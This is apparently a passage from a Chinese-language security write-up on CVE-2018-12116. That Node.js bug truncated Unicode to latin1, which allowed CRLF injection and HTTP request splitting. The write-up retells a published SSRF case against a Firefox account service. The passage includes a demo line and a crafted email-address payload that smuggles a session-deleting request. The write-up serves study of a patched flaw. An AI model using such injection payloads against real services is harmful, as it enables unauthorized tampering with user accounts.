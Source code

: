 ```js
Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
```

![image-20211205164009244](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205164009244.png)

当Node.js<=8构造对这样的url请求时，由于他们不是HTTP控制字符所以不会修改，原样输出；而结合上面我们提过的unicode截去开头第一个字节的事情，我们就可以构造`\r\n`的CRLFi了

现在的Node.js均已修复此问题，官方修复->[http: add --security-revert for CVE-2018-12116](https://github.com/nodejs/node/commit/dd20c0186f)

![image-20211205163601837](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205163601837.png)

旧版中会直接对解释不了的unicode报错，而不是尝试原封不动的搬过去请求

![image-20211205163703908](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205163703908.png)

### 真实场景下的案例

来自->[Security Bugs in Practice: SSRF via Request Splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/) 强烈建议看原文

火狐邮箱账号的客户端与服务器后端交互流程是这样的

```
 +--------+        +--------+        +-----------+       +----------+
 | Client |  HTTP  |  API   |  HTTP  | DataStore |  SQL  |   MySQL  |
 |        |<------>| Server |<------>|  Service  |<----->| Database |
 +--------+        +--------+        +-----------+       +----------+
```

客户端发出的请求是通过http与API Server交互的，比如一个这样的请求

```http
GET /email/74657374406578616d706c652e636f6d
```

会得到`test@example.com`的邮件记录，用hex做了请求的路由，但是一个删除操作却是直接拼接字符串

```http
DELETE /account/xyz/emails/test@example.com
```

此时，最后的端点可控，结合上面的bug，当我们注册这样一个账号

```
x@̠ňƆƆɐį1̮1č̊č̊ɆͅƆ̠įaccountįf9f9eebb05ef4b819b0467cc5ddd3b4aįsessions̠ňƆƆɐį1̮1č̊č̊.cc
```

它其实是这样

```
v = 'x@̠ňƆƆɐį1̮1č̊č̊ɆͅƆ̠įaccountįf9f9eebb05ef4b819b0467cc5ddd3b4aįsessions̠ňƆƆɐį1̮1č̊č̊.cc'
Buffer.from(v.toLowerCase(), "latin1").toString()
```

![image-20211205205928287](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205205928287.png)
